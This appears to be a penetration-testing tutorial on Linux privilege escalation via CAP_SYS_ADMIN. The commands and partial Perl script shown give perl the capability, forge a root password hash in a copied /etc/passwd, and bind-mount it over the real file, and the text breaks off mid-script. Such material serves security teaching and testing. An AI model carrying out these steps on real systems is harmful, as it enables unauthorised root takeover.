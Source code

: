 # Privilege Escalation via CAP_SYS_ADMIN

The CAP_SYS_ADMIN capability is one of the most powerful and broad capabilities in the Linux system. It grants a wide range of administrative privileges that are not covered by other specific capabilities. Here are some of the key functions and permissions associated with CAP_SYS_ADMIN:

- Mounting and Unmounting Filesystems: Allows mounting and unmounting of filesystems.
- Setting Disk Quotas: Enables setting disk quotas for users.
- Modifying Kernel Parameters: Permits modification of certain kernel parameters.
- Performing System Reboots: Allows the system to be rebooted.
- Bypassing File Read, Write, and Execute Permissions: Grants the ability to bypass file permissions in certain contexts.
- Managing Namespaces: Allows creation and management of namespaces.
- Accessing Raw Sockets: Permits access to raw sockets, which can be used for network packet manipulation.

Due to its extensive range of permissions, CAP_SYS_ADMIN is often considered a "catch-all" capability, and it is crucial to use it with caution. Misuse or overuse of this capability can lead to significant security risks.

## Mounting File System Example

This means that we can **mount/umount filesystems**.

```shell
user@pwn:~$ cp $(which perl) .
user@pwn:~$ ls perl
perl
user@pwn:~$ sudo /usr/sbin/setcap cap_sys_admin+ep ./perl
user@pwn:~$ getcap -r ./perl
./perl = cap_sys_admin+ep
```

Using Python we can mount a modified `passwd` file on top of the real `passwd` file:

```shell
user@pwn:~$ cp /etc/passwd ./
user@pwn:~$ openssl passwd -1 -salt abc password
$1$xxxxxxxxxxxxxxxxx/
user@pwn:~$ vim ./passwd
user@pwn:~$ head -n 1 ./passwd
root:$1$xxxxxxxxxxxxxxxxxxx/:0:0:root:/root:/bin/bash
```

Install the required modules:

```sh
cpan Sys::Syscall
```

Replace the `/etc/passwd` file by creating the following Perl script:

```perl
#!/usr/bin/perl

use strict;
use warnings;

# Change the source path
my $source = "/home/user/passwd";
my $target = "/etc/passwd";

# File System and Options
my $filesystemtype = "none";
my $options = "rw";
my $mountflags = 4096;  # MS_BIND

# Determine the system call number for mount
```